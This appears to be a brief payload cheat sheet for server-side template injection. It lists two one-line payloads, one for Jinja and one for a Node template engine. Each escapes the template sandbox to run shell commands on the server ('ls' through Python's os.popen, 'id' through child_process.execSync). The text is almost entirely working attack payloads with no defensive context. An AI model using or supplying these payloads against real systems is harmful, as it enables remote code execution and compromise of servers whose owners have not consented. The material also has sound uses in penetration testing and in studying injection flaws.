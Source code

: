 ## Jinja

- Method 1
```
{{"_".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```

## Node

- Method 1
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```
